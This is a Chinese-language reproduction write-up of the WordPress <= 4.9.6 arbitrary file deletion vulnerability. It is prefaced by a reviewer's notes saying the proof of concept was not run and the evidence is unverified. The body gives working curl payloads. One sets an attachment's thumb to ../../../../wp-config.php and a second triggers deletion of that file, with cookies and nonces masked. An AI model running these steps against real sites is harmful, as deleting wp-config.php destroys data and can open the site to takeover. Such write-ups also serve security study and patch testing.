






## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：&lt;=4.9.6 title; user can upload/edit/delete media with corresponding nonce

- **证据待核（1）**：步骤把中文解释纳入链接URL，末尾image残片缺结果。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

- **凭据与会话边界（2）**：设置thumb目标域0-sec而删除步骤换9c9b.vsplate.me，需统一同一站点/会话。抓包中的会话不能视为未认证访问证明；可识别的真实会话值按中段星号遮罩处理，默认演示值和攻击语法保留。需重新取得授权测试会话，不能复用文中值。

- **证据待核（3）**：与519同链，519含源码/历史原始来源更完整；本篇curl步骤可合并保留。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

- **适用与权限边界（4）**：仅进入后台不足说明最低角色；无修复版本/出处。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# Wordpress \<= 4.9.6 任意文件删除漏洞

一、漏洞简介
------------

利用条件L：需要进入后台

二、漏洞影响
------------

三、复现过程
------------

### 添加新媒体

访问[http://0-sec.org/wp-admin/upload.php，然后上传图片。](http://0-sec.org/wp-admin/upload.php，然后上传图片。)

### 将\$ meta \[\'thumb\'\]设置为我们要删除的文件

#### 单击我们在中上传的图像Step 2，并记住图像的ID。

#### 访问[http://0-sec.org/wp-admin/post.php?post=4&action=edit.\_wpnonce在页面源中查找](http://0-sec.org/wp-admin/post.php?post=4&action=edit._wpnonce在页面源中查找)

#### 发送有效载荷：

    curl -v 'http://0-sec.org/wp-admin/post.php?post=4' -H 'Cookie: ***' -d 'action=editattachment&_wpnonce=***&thumb=../../../../wp-config.php'

### 发动攻击

#### 在页面源码中查找 \_wpnonce

#### 发送有效载荷

    curl -v 'http://9c9b.vsplate.me/wp-admin/post.php?post=4' -H 'Cookie: ***' -d 'action=delete&_wpnonce=***'

#### 刷新页面

image
